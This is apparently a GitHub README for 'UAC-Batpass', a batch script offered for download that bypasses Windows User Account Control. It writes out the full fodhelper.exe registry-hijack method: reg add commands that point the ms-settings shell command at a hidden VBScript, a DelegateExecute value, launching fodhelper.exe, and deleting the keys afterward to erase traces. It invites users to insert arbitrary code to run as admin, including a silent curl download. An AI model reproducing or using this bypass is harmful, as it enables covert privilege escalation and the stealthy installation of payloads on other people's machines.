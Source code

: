# UAC-Batpass
I would really appriciate if you left a star ❤

![downloads](https://img.shields.io/github/downloads/AnixDevGit/UAC-Batpass/total.svg?color=red)
![stars](https://img.shields.io/github/stars/AnixDevGit/UAC-Batpass.svg?color=red)

## Usage
* Download the newest release from [here](https://github.com/AnixDevGit/UAC-Batpass/releases)
* Replace `REM Add Your code below` from the code to what you want to be executed as admin
### Examples:
* `start C:\Path\To\Your\File`
* `curl -s -o "filename" "link"`
## How it works

This script checks if the user has admin privileges. If not, it tries to elevate itself to run as an administrator.

1. **Check Admin Access**:  
   The script runs the command:
   `net session >nul 2>&1`
   
   If this command fails (indicating the script isn't running as an admin), it moves on to elevate itself.

3. **Create Helper Files**:  
   If not an admin, the script creates two files:
   - A batch file (`help.bat`) that contains the script's path.
   - A Visual Basic script (`run.vbs`) that runs the batch file silently with elevated privileges.

4. **Set Payload**:  
   The payload (`wscript.exe %temp%\run.vbs`) is set, and the following registry keys are added to trigger the elevation process:

   `reg add "HKCU\Software\Classes\ms-settings\shell\open\command" /ve /t REG_SZ /d "%payload%" /f`
   
   `reg add "HKCU\Software\Classes\ms-settings\shell\open\command" /v "DelegateExecute" /t REG_SZ /d "" /f`

   - The first key (`ms-settings\shell\open\command`) points to the VBScript, telling Windows to run it when the registry command is triggered.
   - The second key (`DelegateExecute`) is necessary to ensure `fodhelper.exe` executes the payload with elevated privileges.

6. **Elevate Process**:  
   The script runs:

  `start fodhelper.exe`

   This triggers the registry command, causing the batch file to execute with admin rights.

6. **Clean Up**:  
   After a short delay, the script deletes the registry entries it created to clean up:

   `reg delete "HKCU\Software\Classes\ms-settings\shell\open\command" /f`

